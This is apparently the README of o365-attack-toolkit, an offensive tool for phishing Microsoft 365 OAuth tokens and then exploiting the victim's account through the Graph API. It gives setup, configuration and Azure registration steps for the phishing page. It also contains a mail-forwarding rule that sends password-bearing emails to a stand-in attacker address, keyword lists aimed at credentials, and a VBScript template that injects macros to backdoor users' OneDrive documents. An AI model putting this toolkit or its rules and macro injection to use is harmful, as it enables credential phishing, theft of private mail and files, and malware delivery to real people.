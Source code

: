 ## What is o365-attack-toolkit

o365-attack-toolkit allows operators to perform an OAuth phishing attack and later on use the Microsoft Graph API to extract interesting information.

Some of the  implemented features are :
* Extraction of keyworded e-mails from Outlook.
* Creation of Outlook Rules.
* Extraction of files from OneDrive/Sharepoint.
* Injection of macros on Word documents.


## Architecture

![](/images/Architecture.png)


### The toolkit consists of several components
### Phishing endpoint
The phishing endpoint is responsible for serving the HTML file that performs the OAuth token phishing.
### Backend services
Afterward, the token will be used by the backend services to perform the defined attacks.
### Management interface
The management interface can be utilized to inspect the extracted information from the Microsoft Graph API.

## Features

### Outlook Keyworded Extraction
User emails can be extracted by this toolkit using keywords.
For every defined keyword in the configuration file, all the emails that match them will be downloaded and saved in the database. The operator can inspect the downloaded emails through the management interface.
### Onedrive/Sharepoint Keyworded Extraction
Microsoft Graph API can be used to access files across OneDrive, OneDrive for Business and SharePoint document libraries.
User files can be extracted by this toolkit using keywords.
For every defined keyword in the configuration file, all the documents that match them will be downloaded and saved locally. The operator can examine the documents using the management interface.

### Outlook Rules Creation
Microsoft Graph API supports the creation of Outlook rules. 
You can define different rules by putting the rule JSON files in the rules/ folder.
https://docs.microsoft.com/en-us/graph/api/mailfolder-post-messagerules?view=graph-rest-1.0&tabs=cs

Below is an example rule that when loaded, it will forward every email that contains password in the body to ```attacker@example.com```.
```json
{      
    "displayName": "Example Rule",      
    "sequence": 2,      
    "isEnabled": true,          
    "conditions": {
        "bodyContains": [
          "password"       
        ]
     },
     "actions": {
        "forwardTo": [
          {
             "emailAddress": {
                "name": "Attacker Email",
                "address": "attacker@example.com"
              }
           }
        ],
        "stopProcessingRules": false
     }    
}
```

### Word Document Macro Backdooring
Users documents hosted on OneDrive can be backdoored by injecting macros. If this feature is enabled, the last 15 documents accessed by the user will be downloaded and backdoored with the macro defined in the configuration file. After the backdoored file has been uploaded, the extension of the document will be changed to .doc in order for the macro to be supported on Word.
It should be noted that after backdooring the documents, they can not be edited online which increases the chances of our payload execution.

This functionality can only be used on Windows because the insertion of macros is done using the Word COM object.
A VBS file is built by the template below and executed so don't panic if you see ``wscript.exe`` running.

```vbscript
	Dim wdApp
	Set wdApp = CreateObject("Word.Application")
	wdApp.Documents.Open("{DOCUMENT}")
	wdApp.Documents(1).VBProject.VBComponents("ThisDocument").CodeModule.AddFromFile "{MACRO}"
	wdApp.Documents(1).SaveAs2 "{OUTPUT}", 0
	wdApp.Quit
```

## How to set up

### Compile

```
cd %GOPATH%
git clone https://github.com/0x09AL/o365-attack-toolkit
cd o365-attack-toolkit
dep ensure
go build
```

### Configuration

An example configuration as below :
```
[server]
host = 127.0.0.1 ; The ip address for the external listener.
externalport = 30662 ; Port for the external listener
certificate = server.crt ; Certificate for the external listener
key = server.key ; Key for the external listener
internalport = 8080 ; Port for the internal listener.

; Keywords used for extracting emails and files of a user.
[keywords]
outlook = pass,vpn,creds,credentials
onedrive = password,.config,.xml,db,database,mbd 

[backdoor]
enabled = true ; Enable/Disable this feature
macro = "C:\\Test.bas" ; The location of the macro file to use for backdooring documents
```

### Deployment
Before start using this toolkit you need to create an Application on the Azure Portal.
Go to Azure Active Directory -> App Registrations -> Register an application.

![](/images/registerapp.png)

After creating the application, copy the Application ID and change it on ```static/index.html```.

The URL(external listener) that will be used for phishing should be added as a Redirect URL.
To add a redirect url, go the application and click Add a Redirect URL.

![](/images/redirecturl.png)

The Redirect URL should be the URL that will be used to host the phishing endpoint, in this case ```https://myphishingurl.com/```

![](/images/url.png)

Make sure to check both the boxes as shown below :

![](/images/implicitgrant.png)

It should be noted that you can run this tool on any Operating Systems that Go supports, but the Macro Backdooring Functionality will only work on Windows.

The look of the phishing page can be changed on ```static/index.html```.

##  Security Considerations

Apart from all the features this tool has, it also opens some attack surface on the host running the tool.
Firstly, the Macro Backdooring Functionality will open the word files, and if you are running an unpatched version 
of Office, bad things can happen. Additionally, the extraction of files can download malicious files which will be saved on your computer. 

The best approach would be isolating the  host properly and only allowing communication with the HTTPS redirector and Microsoft Graph API.


## Management Interface

The management interface allows the operator to browse the data that  has been extracted. 

#### Users view

![](/images/users.png)

#### View User Emails

![](/images/emails.png)


#### View Email

![](/images/email.png)

